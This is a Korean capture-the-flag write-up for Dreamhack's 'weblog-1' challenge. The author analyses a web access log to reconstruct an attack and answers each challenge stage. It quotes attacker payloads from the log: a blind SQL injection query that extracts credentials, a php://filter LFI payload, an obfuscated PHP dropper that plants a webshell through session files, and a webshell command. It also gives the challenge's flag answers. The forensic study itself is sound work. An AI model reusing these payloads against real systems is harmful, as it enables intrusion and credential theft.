


# weblog-1

- **Category** : Web
- **Level** : 2

    [weblog-1](https://dreamhack.io/wargame/challenges/71)

## 문제 설명

- 이 문제는 웹 로그를 분석하여 탈취된 정보와 방법을 분석하는 문제이다

- 문제에서 주어진 `access.log`파일을 가지고 진행된다

- 이번 문제에서는 단계별로 문제를 풀며 최종적으로 플래그를 획득하는 것을 목표로 한다


## 해설

### 로그 분석(access.log)

로그를 분석하기 전에 보기 편하도록 로그파일을 csv로 변환한다

- 이때 파이썬 코드를 활용하여 변환을 진행하였다

- 다음은 csv파일로 변환하는데 사용된 코드이다
    
    log_to_csv.py
    ```python
    import csv
    import re

    # 텍스트 파일을 읽고 로그를 CSV로 변환하는 함수
    def convert_log_to_csv(input_file, output_file):
        # CSV 파일을 위한 헤더 정의
        headers = ['IP Address', 'Login Name', 'Authenticated User', 'Date and Time', 'Request', 'Response Code', 'Response Size', 'Referer', 'User-Agent']
        
        # 텍스트 파일 열기
        with open(input_file, 'r') as file:
            log_data = file.readlines()

        # CSV 파일 열기
        with open(output_file, mode='w', newline='') as file:
            writer = csv.writer(file)
            writer.writerow(headers)

            # 로그 데이터 처리
            for line in log_data:
                # 정규식으로 로그에서 필요한 부분을 추출
                match = re.match(r'(\S+) (\S+) (\S+) \[([^\]]+)\] "(.*?)" (\d{3}) (\d+) "(.*?)" "(.*?)"', line)

                if match:
                    ip, login_name, auth_user, date_time, request, status, size, referer, user_agent = match.groups()
                    writer.writerow([ip, login_name, auth_user, date_time, request, status, size, referer, user_agent])

        print(f"CSV 파일로 저장되었습니다: {output_file}")

    # 텍스트 파일과 출력 CSV 파일 경로 설정
    input_file = 'access.log'  # 로그 텍스트 파일 경로
    output_file = 'web_log.csv'  # 결과로 저장할 CSV 파일 경로

    # 함수 실행
    convert_log_to_csv(input_file, output_file)
    ```

#### 분석 결과

1. Brute Force-like

   - 변환을 하고 파일을 둘러보면 블라인드 sql인젝션을 기반으로 한 brute force-like 공격이 발생했다는 것을 볼 수 있다

    **왜 brute force-like 공격인가?**

    - 일반 적인 brute force 공격이라면 모든 값을 대입하여 **직접** 값을 얻어내는 방식이다

    - 여기서는 하나씩 입력하여 **참/거짓**으로 구분하고 있다

    - 이러한 방법은 **블라인드**로 진행된다는 점에서 일반적인 brute force보단 **sql인젝션을 기반으로 한 brute force-like** 공격이라 할 수 있다

2. 의심가는 이상한 코드
   
   ```
   /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E
   ```

   로그를 보면 이런 코드가 있다.
   
   공격에 사용한 의심이 되니 한번 분석을 해보자

   **분석**

    위 코드는 url 인코딩되어 있어 디코딩을 해보면

    ```php
    <?php 
    function m($l, $T = 0) {
        $K = date('Y-m-d');  // 현재 날짜를 'Y-m-d' 형식으로 저장
        $_ = strlen($l);     // 입력 문자열 $l의 길이 저장
        $__ = strlen($K);    // 날짜 문자열 $K의 길이 저장
        for ($i = 0; $i < $_; $i++) { // $l의 각 문자에 대해 반복
            for ($j = 0; $j < $__; $j++) { // 날짜 $K의 각 문자에 대해 반복
                if ($T) {
                    $l[$i] = $K[$j] ^ $l[$i]; // XOR 연산 (복호화)
                } else {
                    $l[$i] = $l[$i] ^ $K[$j]; // XOR 연산 (암호화)
                }
            }
        }
        return $l;
    }

    // 인코딩된 문자열: 'bmha[tqp[gkjpajpw'
    // 해석된 값: m('bmha[tqp[gkjpajpw') (함수 호출)
    m('bmha[tqp[gkjpajpw')(
        m('%rev+sss+lpih+qthke`w+miecaw*tlt'), 
        m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?')
    ); 
    ?>
    ```
    (이해하기 편하도록 주석을 달아놓았다)

    다음과 같은 php를 업로드하는 코드를 확인할 수 있다

    이 코드에서는 실행된 날짜를 기준으로 암호를 복호화 하여 실행된다

    로그에 나온 날짜를 기준으로 복호화를 실행해보자(복호화할때 사용된 코드는 decode.py이다)

    **복호화 결과**

    

    - 결과를 보면 uploads에 images.php로 웹쉘을 작성한것을 알 수 있다.

    - c라는 변수로 명령어를 받고 페이지는 알수 없도록 404로 띄워주는것을 확인할 수 있다.

-----------------------------------
### Level 0/5

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

첫 번째 문제는 탈취당한 `admin` 계정의 비밀번호를 찾는 것이다

전에 sql인젝션을 기반으로 한 brute force-like 공격이 발생한 로그를 보면 값이 참일때는 상태코드가 `500`에 Response Size가 `1192`라는걸 유추할 수 있다

csv 파일에서 보기 편하도록 해당 값들만 분리 해보도록 하자

- filtering_csv.py

    특정 값 또는 컬럼을 필터링하도록 설계된 파이썬 코드이다

    코드가 너무 긴 관계로 코드 부븐은 생략한다

위 코드를 이용해 상태코드 `500`과 Response Size가 `1192`인 부분만 남은것을 보면

```
if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=97,%20(select%201%20union%20select%202),%200)
```

이렇게 이름과 비밀번호를 탈취하는 sql쿼리를 확인할 수 있다

좀 더 정리를 해보면

```sql
if(ord(substr((select group_concat(username,0x3a,password)
from users), 1,1))=97, 
(select 1 union select 2),
0)
```

- 이 쿼리는 조건문인 `if()`를 사용하여 특정 조건을 확인한다

- **참(True)**인 경우 `(select 1 union select 2)`를 실행한다

- **거짓(False)**인 경우 `0`을 반환한다


**전체 부분 해석**

- 공격자는 현재 데이터베이스에서 테이블과 컬럼 정보를 연결한 문자열을 가져온다

- 이 문자열에서 **첫 번째 문자**를 추출합니다.

- 추출한 문자의 **ASCII 코드 값이** `97`**(a)인지 확인**

  - **참**: `(select 1 union select 2)`를 실행하여 서버에서 결과를 반환

  - **거짓**: `0`을 반환

- 공격자는 이 요청을 반복하여 문자열의 각 문자를 하나씩 확인하고 데이터베이스 정보를 추출한다


**결과**

위에서 해석한걸 토대로 `=`뒤에 있는 ASCII코드 값을 전부 추출해서 변환해 보자

추출한 ASCII 코드 값

```
97 100 109 105 110 58 84 104 49 115 95 49 115 95 65 100 109 49 110 95 80 64 83 83 44 103 117 101 115 116 58 103 117 101 115 116
```

이걸 변환해보면

```
admin:Th1s_1s_Adm1n_P@SS,guest:guest
```

탈취된 `admin`의 비밀번호는 `Th1s_1s_Adm1n_P@SS`인것을 확인할 수 있다


------------------------------------------------------------

### Level 1/5

```
Q: 공격자가 config.php 코드를 추출하는데 사용한 페이로드를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

우선 log에서 config.php를 검색해보면 여러개가 나온다



다른것들은 상태코드가 **404**인 반면 로그중 두 개가 `200`으로 정상처리 된것을 확인할 수 있다

상태코드가 `200`인 두개의 로그중 config.php 코드를 추출하는데 사용한 페이로드는 다음과 같다

```
php://filter/convert.base64-encode/resource=../config.php
```

### level 2/5

```
Q: LFI 취약점을 통해 코드 실행 공격에 사용된 파일의 전체 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

위에서 확인한 경로로 입력하면 될줄 알았지만 되지 않았다

웹쉘을 입력할때 사용된 memo.php파일을 확인해보면

```php
<a href="javascript:history.back(-1);">Back</a><br/><br/>
<?php
  if($level[$_SESSION['level']] !== "admin") { die("Only Admin !"); }

  if(isset($_GET['memo'])){
    $_SESSION['memo'] = $_GET['memo'];
  }

  if(isset($_SESSION['memo'])){
    echo($_SESSION['memo']);
  }

?>

<form>
  <input type="hidden" name="page" value="memo.php">
  <div class="form-group">
    <label for="memo">memo</label>
    <input type="text" class="form-control" name="memo" id="memo" placeholder="memo">
  </div>
  <button type="submit" class="btn btn-default">Write</button>
</form>
```

세션의 메모값에 저장이 되고 있었다

아까 확인한 로그에서 바로 다음 부분을 보면

```
/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732
```
이렇게 세션값을 확인할 수 있다

### level 3/5

```
Q: 생성된 웹쉘의 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

이번 문제는 로그분석에서 확인했던 경로를 입력해주면 된다.

```
/var/www/html/uploads/images.php
```
(사진에서는 `imaeges.php`로 복호화되었지만 오류로 e가 추가되었기 때문에 `images.php`로 입력해주면 된다)

### level 4/5

```
Q: 생성된 웹쉘을 통해 가장 처음으로 실행된 명령어를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

로그를 확인해 보면 정답을 알 수 있다

웹쉘의 경로와 일치하는 경로에서 실행된 로그를 보면

```
/uploads/images.php?c=whoami
```
다음과 같은데 여기서 실행된 명령어는 `whoami`이다

```sh
whoami
```

### level 5/5

```
Q: ALL SOLVE!!
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

모든 문제를 풀어 `Flag`가 출력되었다
